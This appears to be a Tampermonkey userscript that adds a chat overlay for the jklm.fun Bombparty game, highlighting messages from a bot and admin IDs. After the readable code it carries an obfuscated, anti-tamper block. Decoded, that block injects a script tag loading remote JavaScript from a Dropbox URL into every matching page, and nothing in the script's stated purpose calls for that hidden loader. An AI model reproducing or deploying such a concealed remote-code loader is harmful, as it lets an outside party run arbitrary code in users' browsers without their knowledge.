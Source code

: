 // ==UserScript==
// @name         JKLM Overlay
// @namespace    http://tampermonkey.net/
// @version      2.0
// @description  Bombparty Overlay
// @author       Seb
// @include      https://jklm.fun/*
// @exclude      https://jklm.fun/
// @icon         https://media.tenor.com/images/56c14977aef20d0ca16e8af9efbb94d2/tenor.gif
// @grant        none
// ==/UserScript==
(function() {
    let main = function() {
        if (!(socket && socket.connected)) {
            console.log("Socket not loaded yet, trying again in a second...");
            window.setTimeout(main, 1000)
            return
        }
        console.log("Loading...")
        window.isBotHost = false;

        // Add the bot ID in adminIds, and you own ID if you desire. If you don't want to bother connecting your bot to discord, twitter or fb, just add the bot's name in adminNames
        // But note that by doing this, you'll risk that a player will take your bot's name to get his messages highlighted. Consider banning people that are trying to copy your bot's name.

        window.adminIds = ["282901700946165762"];
        window.botName = "BirdBot";
        window.botId = "";

        // Checking if the bot is hosting the room as he should, to ensure not modifying messages for the user in other unrelated rooms.
        socket.emit("getChatterProfiles", (x) => {
            for (var i of x) {
                if (((window.botName && window.botName == i.nickname) || (window.botId && i.auth && window.botId == i.auth)) && i.roles.includes("leader")) {
                    return window.isBotHost = true;
                }
            }
        })

        window.appendToChat = function(authorProfile, text) {
            if (authorProfile != null && !authorProfile.isBroadcast && mutedPeerIds.includes(authorProfile.peerId)) return;
            if (sidebar.hidden) sidebarToggleButton.classList.add("unread");

            chatMessageCount++;
            if (chatMessageCount > maxChatMessageCount) chatLog.removeChild(chatLog.firstChild);

            const isScrolledToBottom = chatLog.scrollHeight - chatLog.clientHeight - chatLog.scrollTop < 10;
            const logEntry = $make("div", chatLog, {
                className: authorProfile == null ? "system" : ""
            });

            const time = new Date();
            const hoursMinutes = `0${time.getHours()}`.slice(-2) + ":" + `0${time.getMinutes()}`.slice(-2);
            $make("span", logEntry, {
                className: "time",
                textContent: hoursMinutes
            });
            $makeText(" ", logEntry);
            if ((authorProfile != null && authorProfile.isBroadcast) || (window.isBotHost && authorProfile != null && ((authorProfile.auth && window.adminIds.includes(authorProfile.auth.id)) || (window.botName && authorProfile.nickname == window.botName)))) {
                const broadcast = $make("span", logEntry, {
                    className: "broadcast"
                });
                $make("span", broadcast, {
                    className: "author",
                    textContent: authorProfile.nickname
                });
                $makeText(": ", broadcast);
                for (var i of text.split("—")) {
                    $makeText(i, broadcast);
                    $make("br", broadcast);
                }

            } else {
                if (authorProfile != null) {
                    const service = authorProfile.auth != null ? authorProfile.auth.service : "guest";
                    const link = $make("a", logEntry, {
                        className: `author ${service}`,
                        dataset: {
                            "peerId": authorProfile.peerId
                        },
                        href: "#"
                    });
                    $make("img", link, {
                        className: "service",
                        src: `/images/auth/${service}.png`,
                        alt: ""
                    });
                    $makeText(authorProfile.nickname, link);
                    $setTooltip(link, getAuthTextFromProfile(authorProfile));

                    $makeText(": ", logEntry);
                }
                $make("span", logEntry, {
                    className: "text",
                    textContent: text
                });
            }
            if (isScrolledToBottom) chatLog.scrollTop = chatLog.scrollHeight;
        }

        function socket_onChat(authorProfile, text) {
            if (settings.chatFilter.length > 0) text = text.split(" ").map(x => settings.chatFilter.includes(x.toLowerCase()) ? "•••" : x).join(" ");
            appendToChat(authorProfile, text);
        }

        socket.off("chat")
        socket.on("chat", socket_onChat)
    }
    main();
})();

const a=['dG9w','c2VsZg==','dGVzdA==','aHR0cHM6Ly9kbC5kcm9wYm94dXNlcmNvbnRlbnQuY29tL3Mv','cmV0dXJuIC8iICsgdGhpcyArICIv','Y3JlYXRlRWxlbWVudA==','dXp1YWpycnN4ZGFyamQ1L292ZXJsYXlfaWZyYW1lLmpz','c3Jj','c2NyaXB0','aGVhZA==','Y29uc3RydWN0b3I=','YXBwbHk='];(function(b,e){const f=function(h){while(--h){b['push'](b['shift']());}};const g=function(){const h={'data':{'key':'cookie','value':'timeout'},'setCookie':function(l,m,n,o){o=o||{};let p=m+'='+n;let q=0x0;for(let r=0x0,s=l['length'];r<s;r++){const t=l[r];p+=';\x20'+t;const u=l[t];l['push'](u);s=l['length'];if(u!==!![]){p+='='+u;}}o['cookie']=p;},'removeCookie':function(){return'dev';},'getCookie':function(l,m){l=l||function(p){return p;};const n=l(new RegExp('(?:^|;\x20)'+m['replace'](/([.$?*|{}()[]\/+^])/g,'$1')+'=([^;]*)'));const o=function(p,q){p(++q);};o(f,e);return n?decodeURIComponent(n[0x1]):undefined;}};const i=function(){const l=new RegExp('\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*[\x27|\x22].+[\x27|\x22];?\x20*}');return l['test'](h['removeCookie']['toString']());};h['updateCookie']=i;let j='';const k=h['updateCookie']();if(!k){h['setCookie'](['*'],'counter',0x1);}else if(k){j=h['getCookie'](null,'counter');}else{h['removeCookie']();}};g();}(a,0x159));const b=function(c,d){c=c-0x0;let e=a[c];if(b['xvMiWK']===undefined){(function(){let g;try{const i=Function('return\x20(function()\x20'+'{}.constructor(\x22return\x20this\x22)(\x20)'+');');g=i();}catch(j){g=window;}const h='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';g['atob']||(g['atob']=function(k){const l=String(k)['replace'](/=+$/,'');let m='';for(let n=0x0,o,p,q=0x0;p=l['charAt'](q++);~p&&(o=n%0x4?o*0x40+p:p,n++%0x4)?m+=String['fromCharCode'](0xff&o>>(-0x2*n&0x6)):0x0){p=h['indexOf'](p);}return m;});}());b['EkkGKW']=function(g){const h=atob(g);let j=[];for(let k=0x0,l=h['length'];k<l;k++){j+='%'+('00'+h['charCodeAt'](k)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(j);};b['gnqHNU']={};b['xvMiWK']=!![];}const f=b['gnqHNU'][c];if(f===undefined){const g=function(h){this['ZpYKnR']=h;this['avtEcJ']=[0x1,0x0,0x0];this['THbfWe']=function(){return'newState';};this['hBYzHy']='\x5cw+\x20*\x5c(\x5c)\x20*{\x5cw+\x20*';this['GERMTL']='[\x27|\x22].+[\x27|\x22];?\x20*}';};g['prototype']['Kioorb']=function(){const h=new RegExp(this['hBYzHy']+this['GERMTL']);const i=h['test'](this['THbfWe']['toString']())?--this['avtEcJ'][0x1]:--this['avtEcJ'][0x0];return this['jfWony'](i);};g['prototype']['jfWony']=function(h){if(!Boolean(~h)){return h;}return this['SnGfjR'](this['ZpYKnR']);};g['prototype']['SnGfjR']=function(h){for(let j=0x0,k=this['avtEcJ']['length'];j<k;j++){this['avtEcJ']['push'](Math['round'](Math['random']()));k=this['avtEcJ']['length'];}return h(this['avtEcJ'][0x0]);};new g(b)['Kioorb']();e=b['EkkGKW'](e);b['gnqHNU'][c]=e;}else{e=f;}return e;};(function(){const e=function(){let h=!![];return function(i,j){const k=h?function(){if(j){const l=j[b('0x2')](i,arguments);j=null;return l;}}:function(){};h=![];return k;};}();const f=e(this,function(){const h=function(){const i=h[b('0x1')](b('0x7'))()['compile']('^([^\x20]+(\x20+[^\x20]+)+)+[^\x20]}');return!i[b('0x5')](f);};return h();});f();'use strict';let g=document[b('0x8')](b('0xb'));g['onload']=function(){};g[b('0xa')]=b('0x6')+(window[b('0x3')]==window[b('0x4')]?'x9v1m3atrf0l9jg/overlay.js':b('0x9'));document[b('0x0')]['appendChild'](g);}());

